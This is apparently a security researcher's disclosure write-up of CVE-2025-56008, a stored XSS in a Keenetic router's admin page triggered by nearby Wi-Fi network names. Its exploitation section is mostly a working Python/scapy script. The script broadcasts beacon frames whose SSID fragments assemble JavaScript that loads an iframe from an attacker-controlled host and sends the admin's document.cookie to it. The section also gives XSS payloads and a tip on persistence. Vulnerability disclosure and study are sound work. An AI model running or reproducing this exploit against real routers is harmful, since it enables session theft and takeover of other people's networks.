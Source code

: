 ## CVE-2025-56008

### Discovery

This is yet another CVE that I've found in my router's admin panel.

The discovery was very simple: I named my access point like `std::allocator<void>(5GHz)` as a joke and accidentally found that the `<void>` portion was not displayed in the network name on the Wireless ISP page.

However, it was not so easy to turn this into something interesting.

### Exploitation

Just to confirm the issue, I used a short payload: `<style onload=alert(1)//`. After the admin page loaded while an access point with that name was in range, the `alert(1)` is executed.

But what about real attack? :)

The main problem for executing anything interesting was the SSID length limit of 32 characters. To bypass this, I broadcast a list of networks that assemble the payload step by step by storing fragments in JavaScript variables.

The second problem was the order in which networks are rendered. I overcame this by first broadcasting several networks with basic payload fragments and then - after about five seconds - broadcasting the final network that assembles and executes the payload.

The chosen payload exfiltrates `document.cookie` to an attacker-controlled endpoint via `postMessage`. With the stolen authentication cookie an attacker could obtain persistent administrative access (for example, by changing the admin password or creating a new admin user).

Here is the script that will create a list of networks that load the script from attacker-controlled server. It assumes that you already put your adapter `wlp6s0mon` in monitor mode (`sudo airmon-ng start [adapter]`):

```
import time

from scapy.all import *
from threading import Thread
from faker import Faker


s = 0


def send_beacon(ssid, mac, count=1_000_000_000):
    global s

    dot11 = Dot11(type=0, subtype=8, addr1="ff:ff:ff:ff:ff:ff", addr2=mac, addr3=mac)
    beacon = Dot11Beacon(cap="ESS+privacy", timestamp=123)
    s += 1
    essid = Dot11Elt(ID="SSID", info=ssid, len=len(ssid)) / Dot11Elt(ID='Rates', info='\x82\x84\x8b\x96\x0c\x12\x18') / \
        Dot11Elt(ID='ESRates', info='\x30\x48\x60\x6c') / Dot11Elt(ID='DSset', info=chr([9, 10, 11][s % 3]))
    rsn_array = [b'\x01\x00',
                 b'\x00\x0f\xac\x04',
                 b'\x02\x00',
                 b'\x00\x0f\xac\x04',
                 b'\x00\x0f\xac\x02',
                 b'\x01\x00',
                 b'\x00\x0f\xac\x02',
                 b'\x00\x00']
    rsn_bytes = b''.join(rsn_array)
    rsn = Dot11Elt(ID='RSNinfo', info=rsn_bytes, len=len(rsn_bytes))
    frame = RadioTap()/dot11/beacon/essid/rsn

    sendp(frame, inter=0.05, loop=1, iface=iface, verbose=0, count=count)


if __name__ == "__main__":
    iface = "wlp6s0mon"

    input_ssids = [
        """<style onload=a='*'//""",  # 21
        """<style onload=b='postMessage'//""",  # 31
        """<style onload=c=document//""",  # 26
        """<style onload=d='cookie'//""",  # 26
        """<style onload=e=frames//""",  # 24
        """<iframe src=//MY_SITE/b name="u\"""",  # 32
    ]
    last_ssid = """<style onload=e.u[b](c[d],a)//"""  # 30

    input_ssids += [last_ssid]

    assert all(len(i) <= 32 for i in input_ssids)
    print('\n'.join(input_ssids))

    faker = Faker()
    ssids_macs = [(i, faker.mac_address()) for i in input_ssids]

    for ssid, mac in ssids_macs:
        time.sleep(0.05)
        Thread(target=send_beacon, args=(ssid, mac)).start()

    while True:
        time.sleep(1)
        Thread(target=send_beacon, args=(last_ssid, faker.mac_address()), kwargs={'count': 50}).start()
```

Here is a short explaination:

-   `a = '\*'`
-   `b = 'postMessage'`
-   `c = document`
-   `d = 'cookie'`
-   `e = frames`
-   `e.u[b](c[d],a) = frames.u['postMessage'](document['cookie'],'*')` - "get iframe with name 'u' and send document.cookie via postmessage to it".

### Bonus

Names of this router's home/guest Wi-Fi nets were also affected by XSS, so we have a self-XSS here with payload like `<img src=x onerror=alert()>`. It is useless for attacks, but may be useful for "persistence".

### Links

-   CVE record: https://www.cve.org/CVERecord?id=CVE-2025-56008
-   Keenetic security advisory: https://keenetic.com/global/security#october-2025-web-api-vulnerabilities
